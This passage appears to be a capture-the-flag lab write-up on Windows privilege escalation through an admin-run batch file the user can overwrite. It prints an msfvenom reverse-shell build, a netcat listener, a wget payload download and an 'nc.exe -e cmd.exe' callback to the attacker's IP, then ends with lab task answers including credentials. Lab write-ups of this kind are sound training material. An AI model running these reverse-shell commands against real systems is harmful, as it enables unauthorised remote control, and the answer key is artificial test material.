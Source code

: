 This shows that I have permissions to edit this file, since `BUILTIN\Users` have (F) Full access on this file, the privilege check is hard coded in the `.bat` file.

So to gain admin privs, I need to do the following steps:

1. Craft a `.bat` reverse shell payload
2. Start a listener on port 1337
3. Edit `job.bat` file to be my payload
4. Wait for the admin to execute the file
5. Bingo

I started by crafting a simple powershell payload using but I could not bypass security checks, so I just made an `exe` payload using `msfvenom`:

```shell
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.2 LPORT=1337 -f exe -o payload.exe
```


Netcat listener:

```shell
└─$ sudo nc -lvnp 1337                                                             
listening on [any] 1337 ...
```

Edit `job.bat` file:

```shell
PS C:\Log-Management> wget http://10.10.16.2/payload.exe -outfile payload.exe
PS C:\Log-Management> echo C:\Log-Management\payload.exe > job.bat
```

but It didn't seem to work, so I decided to attempt a simple `netcat` reverse shell, I first had to download the `nc.exe` binary on my local machine and transfer it using a simple python http server, the I execute the following command on the target machine:

```shell
echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.2 1337 > C:\Log-Management\job.bat
```

It didn't seem to work at first, but while I was reading online for ways of getting a reverse shell and obfuscating the payload, I noticed I got a connection on my `netcat` listener! and I'm in, I navigated through and got the root flag at `C:\Users\Administrator\Desktop\root.txt`, and yeah, that last reverse shell was very slow and almsot irresponsive.

---

## Tasks & Answers:

**Task 1**: What version of Apache is running on the target's port 80?
> 2.4.41

**Task 2**: What username:password combination logs in successfully?
> admin:password

**Task 3**: What is the word at the top of the page that accepts user input?
> Order
